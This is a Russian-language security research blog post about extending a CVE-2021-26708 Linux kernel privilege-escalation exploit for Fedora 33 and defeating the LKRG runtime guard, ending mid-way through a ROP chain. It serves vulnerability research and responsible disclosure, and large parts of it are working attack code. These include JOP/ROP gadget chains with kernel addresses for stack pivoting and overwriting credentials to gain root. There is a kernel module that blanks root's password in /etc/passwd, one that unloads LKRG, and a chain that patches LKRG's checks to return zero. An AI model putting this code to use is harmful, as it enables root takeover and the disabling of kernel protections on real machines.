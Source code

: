 ```yaml
---
layout: post
title:  "[ru] Исследование защиты LKRG с помощью уязвимости CVE-2021-26708 в ядре Linux"
date:   2021-10-25 13:37:00 +0300
---
```


В этой статье я расскажу о продолжении моего исследования уязвимости CVE-2021-26708 в ядре Linux. Я доработал свой прототип эксплоита и с помощью него исследовал средство защиты [Linux Kernel Runtime Guard](https://github.com/openwall/lkrg) (LKRG) с позиции атакующего. Я расскажу, как мне удалось найти новый метод обхода защиты LKRG, и как я выполнил ответственное разглашение результатов своего исследования.

Летом я [выступил с докладом](https://zeronights.ru/en/reports-en/improving-the-exploit-for-cve-2021-26708-in-the-linux-kernel-to-bypass-lkrg/) по этой теме на конференции ZeroNights 2021 ([слайды](https://a13xp0p0v.github.io/img/CVE-2021-26708_LKRG_bypass.pdf)):
<div style="position:relative;padding-top:56.25%;">
  <iframe src="https://www.youtube.com/embed/n6YLiYiCIMA" frameborder="0" allowfullscreen
    style="position:absolute;top:0;left:0;width:100%;height:100%;"></iframe>
</div>
<br/>

## Зачем я продолжил исследование

В [первой статье](https://xakep.ru/2021/10/19/linux-core-cve/) я описал прототип эксплоита для локального повышения привилегий на `Fedora 33 Server` для платформы `x86_64`. Я рассказал, как состояние гонки в реализации виртуальных сокетов ядра Linux может привести к повреждению четырех байтов ядерной памяти. Я показал, как атакующий может шаг за шагом превратить эту ошибку в произвольное чтение-запись памяти ядра и повысить свои привилегии в системе. Но этот способ повышения привилегий имеет некоторые ограничения, которые мешали мне экспериментировать в системе под защитой LKRG. Я решил продолжить исследование и выяснить, можно ли их устранить. Сейчас я поясню, в чем было дело.

Мой прототип эксплоита выполнял произвольную запись с помощью перехвата потока управления при вызове деструктора `destructor_arg` в атакованном ядерном объекте `sk_buff`:

<center><img src="/img/skb_payload.png" width="85%"></center>
<br/>

Этот деструктор имеет следующий прототип:

```c
void (*callback)(struct ubuf_info *, bool zerocopy_success);
```

Когда ядро вызывает его в функции [`skb_zcopy_clear()`](https://elixir.bootlin.com/linux/v5.10/source/include/linux/skbuff.h#L1470), регистр `RDI` содержит первый аргумент функции. Это адрес самой структуры `ubuf_info`. А регистр `RSI` хранит `1` в качестве второго аргумента функции.

Содержимое этой структуры `ubuf_info` контролируется эксплоитом. Однако первые восемь байтов в ней должны быть заняты адресом функции-деструктора, как видно на схеме. В этом и есть основное ограничение. Из-за него ROP-гаджет для переключения ядерного стека на контролируемую область памяти (stack pivoting) должен выглядеть примерно так:

```
mov rsp, qword ptr [rdi + 8] ; ret
```

К сожалению, ничего похожего в ядре Fedora `vmlinuz-5.10.11-200.fc33.x86_64` найти не удалось. Но зато с помощью [`ROPgadget`](https://github.com/JonathanSalwan/ROPgadget) я нашел такой гаджет, который удовлетворяет этим ограничениям и выполняет запись ядерной памяти вообще без переключения ядреного стека:

```
mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
```

Как сказано выше, `RDI + 8` — это адрес ядерной памяти, содержимое которой контролирует атакующий. В регистре `RSI` содержится 1, а в `RCX` — 0. То есть этот гаджет записывает семь нулевых байтов и один байт с 1 по адресу, который задает атакующий. Как выполнить повышение привилегий процесса с помощью этого ROP-гаджета? Мой прототип эксплоита записывает 0 в поля `uid`, `gid`, `effective uid` и `effective gid` структуры `cred`.

Мне удалось придумать хоть и странный, но вполне рабочий эксплоит-примитив. При этом я не был полностью удовлетворен этим решением, потому что оно не давало возможности полноценного ROP. Кроме того, приходилось выполнять перехват потока управления дважды, чтобы перезаписать все необходимые поля в `struct cred`. Это делало прототип эксплоита менее надежным. Поэтому я решил немного отдохнуть и продолжить исследование.

## Регистры под контролем атакующего

Первым делом я решил еще раз посмотреть на состояние регистров процессора в момент перехвата потока управления. Я поставил точку останова в функции [`skb_zcopy_clear()`](https://elixir.bootlin.com/linux/v5.10/source/include/linux/skbuff.h#L1470), которая вызывает обработчик `callback` из `destructor_arg`:

```console
$ gdb vmlinux
gdb-peda$ target remote :1234
gdb-peda$ break ./include/linux/skbuff.h:1481
```

Вот что отладчик показывает прямо перед перехватом потока управления:

<center><img src="/img/control_flow_hijack_regs.png" width="100%"></center>
<br/>

Какие ядерные адреса хранятся в регистрах процессора? `RDI` и `R8` содержат адрес `ubuf_info`, о котором было сказано выше. Разыменование этого указателя дает указатель на функцию `callback`, который загружен в регистр `RAX`. В регистре `R9` содержится некоторый указатель на память в ядерном стеке (его значение близко к значению `RSP`). В регистрах `R12` и `R14` находятся какие-то адреса памяти в ядерной куче, и мне не удалось выяснить, на какие объекты они ссылаются.

А вот регистр `RBP`, как оказалось, содержит адрес `skb_shared_info`. Это адрес моего объекта `sk_buff` плюс отступ `SKB_SHINFO_OFFSET`, который равен `3776` или `0xec0` (больше деталей в [первой статье](https://xakep.ru/2021/10/19/linux-core-cve/)). Этот адрес дал мне надежду на успех, потому что он указывает на память, содержимое которой находится под контролем эксплоита. Я начал искать ROP/JOP-гаджеты, задействующие `RBP`.

## Исчезающие JOP-гаджеты

Я стал просматривать все доступные гаджеты с участием `RBP` и нашел множество JOP-гаджетов, похожих на этот:

```
0xffffffff81711d33 : xchg eax, esp ; jmp qword ptr [rbp + 0x48]
```

Адрес `RBP + 0x48` также указывает на ядерную память под контролем атакующего. Я понял, что могу выполнить stack pivoting с помощью **цепочки таких JOP-гаджетов**, после чего выполнить полноценную ROP-цепочку. Отлично!

Для быстрого эксперимента я взял этот гаджет `xchg eax, esp ; jmp qword ptr [rbp + 0x48]`. Он переключает ядерный стек на память в пользовательском пространстве. Сначала я удостоверился, что этот гаджет действительно находится в коде ядра:

```
$ gdb vmlinux

gdb-peda$ disassemble 0xffffffff81711d33
Dump of assembler code for function acpi_idle_lpi_enter:
   0xffffffff81711d30 <+0>:	call   0xffffffff810611c0 <__fentry__>
   0xffffffff81711d35 <+5>:	mov    rcx,QWORD PTR gs:[rip+0x7e915f4b]
   0xffffffff81711d3d <+13>:	test   rcx,rcx
   0xffffffff81711d40 <+16>:	je     0xffffffff81711d5e <acpi_idle_lpi_enter+46>

gdb-peda$ x/2i 0xffffffff81711d33
   0xffffffff81711d33 <acpi_idle_lpi_enter+3>:	xchg   esp,eax
   0xffffffff81711d34 <acpi_idle_lpi_enter+4>:	jmp    QWORD PTR [rbp+0x48]
```

Так и есть. Код функции `acpi_idle_lpi_enter()` начинается с адреса `0xffffffff81711d30`, и гаджет отображается, если смотреть на код этой функции с трехбайтовым отступом.

Однако, когда я попробовал выполнить этот гаджет при перехвате потока управления, ядро неожиданно выдало отказ страницы (page fault). Я стал отлаживать эту ошибку и заодно спросил моего друга [Андрея Коновалова](https://twitter.com/andreyknvl), известного исследователя безопасности Linux, не сталкивался ли он с таким эффектом. Андрей обратил внимание, что байты кода, которые распечатало ядро, отличались от вывода утилиты `objdump` для исполняемого файла ядра.

<center><img src="/img/missing_gadget.png" width="100%"></center>
<br/>

Это был первый случай в моей практике с ядром Linux, когда дамп кода в ядерном журнале оказался полезен :) Я подключился отладчиком к работающему ядру и обнаружил, что код функции `acpi_idle_lpi_enter()` действительно изменился:

```
$ gdb vmlinux
gdb-peda$ target remote :1234

gdb-peda$ disassemble 0xffffffff81711d33
Dump of assembler code for function acpi_idle_lpi_enter:
   0xffffffff81711d30 <+0>:	nop    DWORD PTR [rax+rax*1+0x0]
   0xffffffff81711d35 <+5>:	mov    rcx,QWORD PTR gs:[rip+0x7e915f4b]
   0xffffffff81711d3d <+13>:	test   rcx,rcx
   0xffffffff81711d40 <+16>:	je     0xffffffff81711d5e <acpi_idle_lpi_enter+46>

gdb-peda$ x/2i 0xffffffff81711d33
   0xffffffff81711d33 <acpi_idle_lpi_enter+3>:	add    BYTE PTR [rax],al
   0xffffffff81711d35 <acpi_idle_lpi_enter+5>:	mov    rcx,QWORD PTR gs:[rip+0x7e915f4b]
```

На самом деле, ядро Linux может модифицировать свой собственный код в момент исполнения. В этом конкретном случае код функции `acpi_idle_lpi_enter()` был изменен механизмом [`CONFIG_DYNAMIC_FTRACE`](https://elixir.bootlin.com/linux/v5.10/source/Documentation/trace/ftrace.rst). Он также испортил множество других JOP-гаджетов, на которые я рассчитывал! Чтобы не попасть в такую ситуацию снова, я решил попробовать искать нужные ROP/JOP-гаджеты в памяти ядра живой виртуальной машины.

<center><img src="/img/surgeon.jpg" width="85%">
<br/>Евгений Корнеев. Портрет академика Л. К. Богуша. 1980
</center>
<br/>

Сначала я опробовал команду `ropsearch` из инструмента `gdb-peda`, но у нее оказалась слишком ограниченная функциональность. Тогда я зашел с другой стороны и сделал снимок всей области памяти с ядерным кодом с помощью команды `gdb-peda dumpmem`. В первую очередь нужно было определить расположение ядерного кода в памяти:

```console
[root@localhost ~]# grep "_text" /proc/kallsyms
ffffffff81000000 T _text
[root@localhost ~]# grep "_etext" /proc/kallsyms
ffffffff81e026d7 T _etext
```

Затем я сделал снимок памяти между адресами `_text` и `_etext`:

```console
gdb-peda$ dumpmem kerndump 0xffffffff81000000 0xffffffff81e03000
Dumped 14692352 bytes to 'kerndump'
```

После этого я применил к полученному файлу утилиту [`ROPgadget`](https://github.com/JonathanSalwan/ROPgadget). Она может искать ROP/JOP-гаджеты в сыром снимке памяти, если задать дополнительные опции (спасибо за подсказку моему другу [Максиму Горячему](https://twitter.com/h0t_max), известному исследователю безопасности аппаратного обеспечения):

```console
# ./ROPgadget.py --binary kerndump --rawArch=x86 --rawMode=64 > rop_gadgets_5.10.11_kerndump
```

Теперь я был готов составить JOP/ROP-цепочку.

## JOP/ROP-цепочка для stack pivoting

Я изучил гаджеты с регистром `RBP`, которые остались в памяти живой машины с учетом `CONFIG_DYNAMIC_FTRACE`, и смог составить такую JOP/ROP-цепочку для переключения ядерного стека на контролируемую мной область памяти:

```c
/* JOP/ROP gadget chain for stack pivoting: */

/* mov ecx, esp ; cwde ; jmp qword ptr [rbp + 0x48] */
#define STACK_PIVOT_1_MOV_ECX_ESP_JMP		(0xFFFFFFFF81768A43lu + kaslr_offset)

/* push rdi ; jmp qword ptr [rbp - 0x75] */
#define STACK_PIVOT_2_PUSH_RDI_JMP		(0xFFFFFFFF81B5FD0Alu + kaslr_offset)

/* pop rsp ; pop rbx ; ret */
#define STACK_PIVOT_3_POP_RSP_POP_RBX_RET	(0xFFFFFFFF8165E33Flu + kaslr_offset)
```

1. Первый JOP-гаджет сохраняет младшие 32 бита регистра `RSP` (указатель на стек) в регистре `ECX` и затем совершает прыжок по адресу, указывающему на следующий гаджет. Это действие важно, потому что эксплоит в конце должен будет восстановить исходное значение `RSP`. К сожалению, в образе ядра не нашлось аналогичного гаджета, который сохранил бы значение `RSP` полностью. Тем не менее я нашел способ обойтись его половиной. Про этот трюк будет рассказано далее.

2. Второй JOP-гаджет помещает в ядерный стек адрес `ubuf_info` из регистра `RDI`, после чего также совершает прыжок по адресу, указывающему на следующий гаджет.

3. Наконец, заключительный ROP-гаджет записывает адрес структуры `ubuf_info` в стековый указатель. Затем он выполняет инструкцию `pop rbx`, которая добавляет восемь байтов к значению `RSP`. Тем самым стековый указатель сдвигается с адреса первого JOP-гаджета, который хранится в начале структуры `ubuf_info` (как было описано выше). Теперь в `RSP` содержится адрес начала ROP-цепочки, исполнение которой начнется после инструкции `ret`. Отлично!

Вот как эксплоит готовит эту цепочку в памяти для перезаписи ядерного объекта `sk_buff`:

```c
/* mov ecx, esp ; cwde ; jmp qword ptr [rbp + 0x48] */
uinfo_p->callback = STACK_PIVOT_1_MOV_ECX_ESP_JMP;

unsigned long *jmp_addr_1 = (unsigned long *)(xattr_addr + SKB_SHINFO_OFFSET + 0x48);
/* push rdi ; jmp qword ptr [rbp - 0x75] */
*jmp_addr_1 = STACK_PIVOT_2_PUSH_RDI_JMP;

unsigned long *jmp_addr_2 = (unsigned long *)(xattr_addr + SKB_SHINFO_OFFSET - 0x75);
/* pop rsp ; pop rbx ; ret */
*jmp_addr_2 = STACK_PIVOT_3_POP_RSP_POP_RBX_RET;
```

<center><img src="/img/skb_payload_jop_chain.png" width="100%"></center>
<br/>

## ROP-цепочка для повышения привилегий

После того как я справился с переключением ядерного стека на контролируемую мной область памяти, я быстро собрал ROP-цепочку для повышения привилегий:

```c
unsigned long *rop_gadget = (unsigned long *)(xattr_addr + MY_UINFO_OFFSET + 8);
int i = 0;

#define ROP_POP_RAX_RET			(0xFFFFFFFF81015BF4lu + kaslr_offset)
#define ROP_MOV_QWORD_PTR_RAX_0_RET	(0xFFFFFFFF8112E6D7lu + kaslr_offset)

/* 1. Perform privilege escalation */
rop_gadget[i++] = ROP_POP_RAX_RET;		/* pop rax ; ret */
rop_gadget[i++] = owner_cred + CRED_UID_GID_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_0_RET;	/* mov qword ptr [rax], 0 ; ret */
rop_gadget[i++] = ROP_POP_RAX_RET;		/* pop rax ; ret */
rop_gadget[i++] = owner_cred + CRED_EUID_EGID_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_0_RET;	/* mov qword ptr [rax], 0 ; ret */
```

Тут довольно просто. Ядерный адрес `owner_cred` был получен эксплоитом с помощью произвольного чтения ядерной памяти (все подробности в [первой статье](https://xakep.ru/2021/10/19/linux-core-cve/)). Представленная часть ROP-цепочки использует этот адрес, чтобы перезаписать значение `uid`, `gid`, `effective uid` и `effective gid` нулем, что дает привилегии суперпользователя.

Далее ROP-цепочка должна восстановить исходное значение регистра `RSP` и продолжить исполнение системного вызова как ни в чем не бывало. Как у меня получилось это сделать? Младшие 32 бита изначального стекового указателя были сохранены в регистре `RCX`. А старшие 32 бита можно извлечь из значения регистра `R9`, так как в нем хранится некоторый адрес из ядерного стека (это было показано выше на выводе отладчика). Немного битовой арифметики — и готово:

```c
#define ROP_MOV_RAX_R9_RET		(0xFFFFFFFF8106BDA4lu + kaslr_offset)
#define ROP_POP_RDX_RET			(0xFFFFFFFF8105ED4Dlu + kaslr_offset)
#define ROP_AND_RAX_RDX_RET		(0xFFFFFFFF8101AD34lu + kaslr_offset)
#define ROP_ADD_RAX_RCX_RET		(0xFFFFFFFF8102BA35lu + kaslr_offset)
#define ROP_PUSH_RAX_POP_RBX_RET	(0xFFFFFFFF810D64D1lu + kaslr_offset)
#define ROP_PUSH_RBX_POP_RSP_RET	(0xFFFFFFFF810749E9lu + kaslr_offset)

/* 2. Restore RSP and continue */
rop_gadget[i++] = ROP_MOV_RAX_R9_RET;	    /* mov rax, r9 ; ret */
rop_gadget[i++] = ROP_POP_RDX_RET;	    /* pop rdx ; ret */
rop_gadget[i++] = 0xffffffff00000000lu;
rop_gadget[i++] = ROP_AND_RAX_RDX_RET;	    /* and rax, rdx ; ret */
rop_gadget[i++] = ROP_ADD_RAX_RCX_RET;	    /* add rax, rcx ; ret */
rop_gadget[i++] = ROP_PUSH_RAX_POP_RBX_RET; /* push rax ; pop rbx ; ret */
rop_gadget[i++] = ROP_PUSH_RBX_POP_RSP_RET; /* push rbx ; add eax, 0x415d0060 ; pop rsp ; ret*/
```

Здесь значение регистра `R9` копируется в `RAX`. Затем битовая маска `0xffffffff00000000` сохраняется в `RDX`, и побитовая операция `AND` выполняется для `RAX` и `RDX`. В результате `RAX` содержит старшие биты исходного стекового указателя, к которым нужно прибавить младшие биты из `RCX`. Результат загружается в регистр `RSP` через `RBX` (мне пришлось сделать так, потому что в памяти машины не нашлось гаджета типа `mov rsp, rax ; ret`).

Финальная инструкция `RET` возвращает управление из ROP-цепочки. За счет аккуратно восстановленного значения `RSP` ядро продолжает обработку системного вызова `recv()`, однако эксплоит уже выполняется с привилегиями пользователя `root`.

## Проверить LKRG на прочность

[Linux Kernel Runtime Guard](https://github.com/openwall/lkrg) (LKRG) — это очень интересный проект. Он предоставляет ядерный модуль, который в процессе работы системы проверяет целостность ядра и противодействует эксплуатации уязвимостей в нем. [LKRG выявляет ядерные эксплоиты](https://www.openwall.com/presentations/OSTconf2020-LKRG-In-A-Nutshell/) по характерным действиям и повреждению определенных данных. LKRG обнаруживает:

 - несанкционированное повышение привилегий
   - через вызов функции `commit_creds()`
   - или с помощью перезаписи `struct cred`;
 - нарушение изоляции процесса и выход из namespace;
 - несанкционированное изменение состояния процессора (например, отключение `SMEP` и `SMAP` на `x86_64`);
 - неправомерное изменение данных в секциях `.text` и `.rodata` ядра Linux;
 - выполнение приемов stack pivoting и ROP;
 - и еще многое другое.

<center><img src="/img/lkrg.png" width="40%"></center>
<br/>

Этот проект [поддерживается](https://lkrg.org/) компанией Openwall. Основной разработчик — [Адам 'pi3' Заброцки](https://twitter.com/Adam_pi3), который занимается проектом в свободное время. В данный момент LKRG поставляется в бета-версии, при этом разработчики стараются поддерживать высокую надежность и портируемость между различными версиями ядра. Вот что Адам говорит о проекте:

```
We are aware that LKRG is bypassable by design (as we have always spoken openly)
but such bypasses are neither easy nor cheap/reliable.
```

Перевожу это так:

```
Мы знаем, что защиту LKRG можно обойти (о чем мы всегда открыто говорили),
однако эти методы обхода непростые, недешевые и ненадежные.

```

[Илья Матвейчиков](https://github.com/milabs), известный эксперт по руткитам, уже проводил исследования в этой области. Он собрал результаты своих экспериментов в [отдельном репозитории](https://github.com/milabs/lkrg-bypass). В ответ Адам проанализировал работу Ильи и [улучшил LKRG](https://www.openwall.com/lists/lkrg-users/2019/02/21/2), чтобы устранить эти методы обхода защиты.

Я решил доработать мой улучшенный прототип эксплоита для [CVE-2021-26708](https://nvd.nist.gov/vuln/detail/CVE-2021-26708) и придумать новый способ обхода LKRG. Стало еще интереснее. Моя первая идея была такая:

```shell
LKRG отслеживает несанкционированное повышение привилегий,
но при этом не следит за содержимым файла '/etc/passwd'.
Значит, я могу попробовать незаметно сбросить пароль пользователя root
через изменение '/etc/passwd'! Выполнение команды 'su' после этого
будет выглядеть для LKRG абсолютно легально.
```

Я сделал быстрый прототип для этой идеи. Удобно было оформить его в виде небольшого модуля ядра:

```c
#include <linux/module.h>
#include <linux/kallsyms.h>

static int __init pwdhack_init(void)
{
	struct file *f = NULL;
	char *str = "root::0:0:root:/root:/bin/bash\n";
	ssize_t wret;
	loff_t pos = 0;

	pr_notice("pwdhack: init\n");

	f = filp_open("/etc/passwd", O_WRONLY, 0);
	if (IS_ERR(f)) {
		pr_err("pwdhack: filp_open() failed\n");
		return -ENOENT;
	}

	wret = kernel_write(f, str, strlen(str), &pos);
	printk("pwdhack: kernel_write() returned %ld\n", wret);

	pr_notice("pwdhack: done\n");

	return 0;
}

static void __exit pwdhack_exit(void)
{
	pr_notice("pwdhack: exit\n");
}

module_init(pwdhack_init)
module_exit(pwdhack_exit)

MODULE_LICENSE("GPL v2");
```

Этот ядерный код перезаписывает начало файла `/etc/passwd` строкой `root::0:0:root:/root:/bin/bash\n` и тем самым устанавливает пустой пароль для пользователя `root`. После этого непривилегированный пользователь может выполнить команду `su` и беспрепятственно получить привилегии суперпользователя.

Далее я реализовал в своей ROP-цепочке такую логику с вызовом функций `filp_open()` и `kernel_write()`, но эксплоит не смог открыть файл `/etc/passwd`. Оказывается, ядро проверяет привилегии процесса и правила политики SELinux, даже когда файл открывается из пространства ядра. Перезапись привилегий **перед** `filp_open()` тоже не сработала: LKRG сразу же обнаружил это и убил процесс эксплоита. Таким образом, эту идею пришлось отбросить.

## Вперед, в атаку на LKRG!

Размышляя об LKRG с позиции атакующего, я осознал, что не нужно от него прятаться. Напротив, мне пришла идея как-то уничтожить LKRG прямо из ROP-цепочки.

<center><img src="/img/snowballs.jpg" width="85%">
<br/>Анатолий Волков. Снежки. 1957
</center>
<br/>

Самый прямой путь к этой цели — просто выгрузить LKRG из ядра. Я написал небольшой модуль ядра, чтобы проверить эту гипотезу перед тем, как перерабатывать ROP-цепочку в эксплоите:

```c
#include <linux/module.h>
#include <linux/kallsyms.h>

static int __init destroy_lkrg_init(void)
{
	struct module *lkrg_mod = find_module("p_lkrg");

	if (!lkrg_mod) {
		pr_notice("destroy_lkrg: p_lkrg module is NOT found\n");
		return -ENOENT;
	}

	if (!lkrg_mod->exit) {
		pr_notice("destroy_lkrg: p_lkrg module has no exit method\n");
		return -ENOENT;
	}

	pr_notice("destroy_lkrg: p_lkrg module is found, remove it brutally!\n");
	lkrg_mod->exit();

	return 0;
}

static void __exit destroy_lkrg_exit(void)
{
	pr_notice("destroy_lkrg: exit\n");
}

module_init(destroy_lkrg_init)
module_exit(destroy_lkrg_exit)

MODULE_LICENSE("GPL v2");
```

Эксперимент показал, что это рабочая идея, модуль LKRG был выгружен. Тогда я реализовал в моей ROP-цепочке эту логику с вызовом функций `find_module()` и `exit()` из LKRG, но она не сработала. Почему? В функции `p_lkrg_deregister()` в процессе своей выгрузки LKRG вызывает ядерную функцию `schedule()`, в которой у него поставлена дополнительная проверка `pCFI` (LKRG вставляет такие проверки во многие важные точки ядра Linux). Эта проверка обнаруживает мою ROP-цепочку и убивает процесс эксплоита прямо в процессе выгрузки модуля LKRG. К тому же система при этом зависает. Жаль, хорошая была идея.

Тогда я стал думать, как еще можно вывести LKRG из строя, и обратил внимание на `kprobes` и `kretprobes`. Это как раз тот механизм, с помощью которого LKRG расставляет свои проверки по всему ядру  Linux. Первым делом я попробовал просто выключить `kprobes` через штатную настройку в `debugfs`:

```console
[root@localhost ~]# echo 0 > /sys/kernel/debug/kprobes/enabled
```

На системе без LKRG это сработало корректно, но когда я попробовал сделать это с загруженным LKRG, система полностью зависла. Мне кажется, в этом случае где-то в ядре из-за LKRG происходит взаимная блокировка (deadlock) или бесконечный цикл. Как бы то ни было, я не стал тратить дополнительное время на отладку этой ошибки.

Кстати, отладка ядра с LKRG — это то еще удовольствие. Например, я долго не мог понять, почему ядро Linux с LKRG падает (crash) каждый раз, когда я пытаюсь поработать в отладчике. Дело в том, что при задании точки останова `gdb` меняет инструкцию в коде ядра, а LKRG в параллельном потоке через некоторое время обнаруживает это как «ошибку целостности» и убивает всю машину, пока я таращусь в отладчик, пытаясь понять, что к чему :)

## Успешная атака на LKRG

Наконец мне удалось придумать рабочую атаку против LKRG. Я стал разбираться в его коде и нашел две функции, которые отвечают за главную функциональность. Это `p_check_integrity()`, которая выполняет проверку целостности кода ядра, и `p_cmp_creds()`, которая сверяет привилегии процессов системы с внутренней базой LKRG и обнаруживает несанкционированное повышение привилегий.

Мне пришла идея атаковать в лоб и переписать код этих двух функций прямо из ROP-цепочки в эксплоите. Я сделал это с помощью байтов `0x48 0x31 0xc0 0xc3`, которые представляют собой инструкции `xor rax, rax ; ret`, то есть `return 0`. После этого я беспрепятственно поднял привилегии процесса эксплоита. Отлично! Разберем получившуюся финальную ROP-цепочку:

```c
unsigned long *rop_gadget = (unsigned long *)(xattr_addr + MY_UINFO_OFFSET + 8);
int i = 0;

#define SAVED_RSP_OFFSET	3400

#define ROP_MOV_RAX_R9_RET		(0xFFFFFFFF8106BDA4lu + kaslr_offset)
#define ROP_POP_RDX_RET			(0xFFFFFFFF8105ED4Dlu + kaslr_offset)
#define ROP_AND_RAX_RDX_RET		(0xFFFFFFFF8101AD34lu + kaslr_offset)
#define ROP_ADD_RAX_RCX_RET		(0xFFFFFFFF8102BA35lu + kaslr_offset)
#define ROP_MOV_RDX_RAX_RET		(0xFFFFFFFF81999A1Dlu + kaslr_offset)
#define ROP_POP_RAX_RET			(0xFFFFFFFF81015BF4lu + kaslr_offset)
#define ROP_MOV_QWORD_PTR_RAX_RDX_RET	(0xFFFFFFFF81B6CB17lu + kaslr_offset)

/* 1. Save RSP */
rop_gadget[i++] = ROP_MOV_RAX_R9_RET;	/* mov rax, r9 ; ret */
rop_gadget[i++] = ROP_POP_RDX_RET;	/* pop rdx ; ret */
rop_gadget[i++] = 0xffffffff00000000lu;
rop_gadget[i++] = ROP_AND_RAX_RDX_RET;	/* and rax, rdx ; ret */
rop_gadget[i++] = ROP_ADD_RAX_RCX_RET;	/* add rax, rcx ; ret */
rop_gadget[i++] = ROP_MOV_RDX_RAX_RET;	/* mov rdx, rax ; shr rax, 0x20 ; xor eax, edx ; ret */
rop_gadget[i++] = ROP_POP_RAX_RET;	/* pop rax ; ret */
rop_gadget[i++] = uaf_write_value + SAVED_RSP_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_RDX_RET; /* mov qword ptr [rax], rdx ; ret */
```

Эта часть ROP-цепочки восстанавливает начальное значение `RSP` из битов в `ECX` и `R9` (методику я описывал выше). Это значение стекового указателя сохраняется в ядерном объекте `sk_buff` (он под контролем атакующего) по отступу `SAVED_RSP_OFFSET`. Эта хитрость позволяет не занимать под хранение значения отдельный регистр, он еще пригодится.

```c
#define KALLSYMS_LOOKUP_NAME 	(0xffffffff81183dc0lu + kaslr_offset)
#define FUNCNAME_OFFSET_1	3550

#define ROP_POP_RDI_RET				(0xFFFFFFFF81004652lu + kaslr_offset)
#define ROP_JMP_RAX				(0xFFFFFFFF81000087lu + kaslr_offset)

/* 2. Destroy lkrg : part 1 */
rop_gadget[i++] = ROP_POP_RAX_RET;	/* pop rax ; ret */
rop_gadget[i++] = KALLSYMS_LOOKUP_NAME;
		  /* unsigned long kallsyms_lookup_name(const char *name) */
rop_gadget[i++] = ROP_POP_RDI_RET;	/* pop rdi ; ret */
rop_gadget[i++] = uaf_write_value + FUNCNAME_OFFSET_1;
strncpy((char *)xattr_addr + FUNCNAME_OFFSET_1, "p_cmp_creds", 12);
rop_gadget[i++] = ROP_JMP_RAX;		/* jmp rax */
```

Эта часть ROP-цепочки вызывает функцию `kallsyms_lookup_name("p_cmp_creds")`. В ядерном объекте `sk_buff` по отступу `FUNCNAME_OFFSET_1` подготавливается строка `"p_cmp_creds"`. Ее адрес загружается в регистр `RDI`, через который должен передаваться первый аргумент функции в соответствии с System V AMD64 ABI.

Важно заметить, что опция `lkrg.hide` по умолчанию имеет значение 0, что позволяет атакующему легко получить адреса функций LKRG с помощью вызова `kallsyms_lookup_name()`. Также есть и другие способы сделать это.

```c
#define XOR_RAX_RAX_RET				(0xFFFFFFFF810859C0lu + kaslr_offset)
#define ROP_TEST_RAX_RAX_CMOVE_RAX_RDX_RET	(0xFFFFFFFF81196AA2lu + kaslr_offset)

/* If lkrg function is not found, let's patch "xor rax, rax ; ret" */
rop_gadget[i++] = ROP_POP_RDX_RET;	/* pop rdx ; ret */
rop_gadget[i++] = XOR_RAX_RAX_RET;
rop_gadget[i++] = ROP_TEST_RAX_RAX_CMOVE_RAX_RDX_RET; /* test rax, rax ; cmove rax, rdx ; ret*/
```

В этой части ROP-цепочки идет обработка результата вызова `kallsyms_lookup_name()`. Эта функция через регистр `RAX` возвращает адрес `p_cmp_creds()` или `NULL`, если модуль LKRG не загружен. Эксплоит должен корректно обрабатывать оба этих случая, и я придумал для этого такой трюк:
  1. Я нашел в ядерной памяти живой машины байты инструкций `xor rax, rax ; ret`, их адрес здесь определен как `XOR_RAX_RAX_RET`.
  2. Этот адрес загружается в регистр `RDX`.
  3. Если `kallsyms_lookup_name("p_cmp_creds")` возвращает `NULL`, то этот адрес загружается в регистр `RAX` вместо `NULL`. Для этого используется инструкция conditional move в гаджете `test rax, rax ; cmove rax, rdx ; ret`.

Отлично! Если модуль LKRG загружен в ядро, эксплоит перепишет код функции `p_cmp_creds()` инструкциями `xor rax, rax ; ret`. В противном случае, если LKRG отсутствует, эксплоит перепишет инструкции `xor rax, rax ; ret` теми же самыми байтами и ничего не испортит в ядерной памяти. Эта перезапись (patching) выполняется в следующей части ROP-цепочки:

```c
#define TEXT_POKE		(0xffffffff81031300lu + kaslr_offset)
#define CODE_PATCH_OFFSET	3450

#define ROP_MOV_RDI_RAX_POP_RBX_RET		(0xFFFFFFFF81020ABDlu + kaslr_offset)
#define ROP_POP_RSI_RET				(0xFFFFFFFF810006A4lu + kaslr_offset)

rop_gadget[i++] = ROP_MOV_RDI_RAX_POP_RBX_RET;
